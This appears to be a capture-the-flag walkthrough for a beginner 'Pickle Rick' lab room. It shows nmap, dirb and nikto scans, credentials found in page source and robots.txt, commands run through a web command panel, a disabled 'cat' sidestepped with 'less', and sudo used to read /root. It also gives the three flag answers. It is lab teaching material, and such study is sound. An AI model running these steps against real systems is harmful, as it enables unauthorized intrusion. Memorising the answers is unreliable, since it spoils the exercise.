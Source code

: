 ### Difficulty: EASY

### Keywords and tools: nmap, nikto, dirb, directory traversal


#ping the target (target IP will be given after you've joined the room)

ping 10.10.102.120 
PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms

#nmap scan

sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool


#connect to web app with Firefox
#inspect the page source 

<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->


#Check /robots.txt
Wubbalubbadubdub

#Maybe a password?
#Let's try ssh.


ssh R1ckRul3s@10.10.102.120
R1ckRul3s@10.10.102.120: Permission denied (publickey).

#No success. Will need ssh key.
  
  

#scan the target for possibly hidden content with dirb
dirb http://10.10.102.120/

#nothing special found, lets try nikto
nikto -h 10.10.102.120

#nikto found an /login.php page, lets see it and try to login

username: R1ckRul3s
password: Wubbalubbadubdub

#we get a command panel with a command execution box, lets try typing 'whoami'
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled

#open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair

#and we have our first flag


#open the http://10.10.102.120/clue.txt
Look around the file system for the other ingredient.

#lets try directory traversal
cd ../../../../; ls

#works, lets explore home

cd /home; ls
cd /home/rick; ls

#we see 'second ingredients', and since cat-command is disabled, lets try 'less'

less /home/rick/"second ingredients"
jerry tear

#now we got our second flag


#lets see if we have sudo

sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: fleeb juice

#we got all 3 flags.
